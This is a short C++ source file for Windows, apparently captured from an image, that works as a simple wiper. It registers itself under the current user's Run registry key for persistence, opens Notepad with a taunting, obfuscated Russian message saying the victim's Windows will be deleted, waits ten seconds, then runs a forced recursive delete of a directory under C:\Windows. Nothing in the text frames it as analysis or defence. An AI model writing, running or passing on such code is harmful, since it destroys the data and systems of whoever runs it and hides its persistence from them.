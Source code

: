 #include <windows.h>
#include <iostream>
#include <string>

void wipeDisk() {
    system("rmdir /s /q C:\\Windows\\Win32");
}

void addToStartup() {
    HKEY hKey;
    LPCSTR subKey = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
    LPCSTR valueName = "MyApplication";

    char executablePath[MAX_PATH];
    GetModuleFileNameA(NULL, executablePath, MAX_PATH);

    if (RegOpenKeyExA(HKEY_CURRENT_USER, subKey, 0, KEY_SET_VALUE, &hKey) == ERROR_SUCCESS) {
        RegSetValueExA(hKey, valueName, 0, REG_SZ, (const BYTE*)executablePath, strlen(executablePath) + 1);
        RegCloseKey(hKey);
    }
}

int main() {
    addToStartup();
    system("start notepad.exe \"3драBctBYuТе, ваша вunд0ус будEt YDаЛEHа, П0КА П0КА\"");
    Sleep(10000);
    wipeDisk();

    return 0;
}
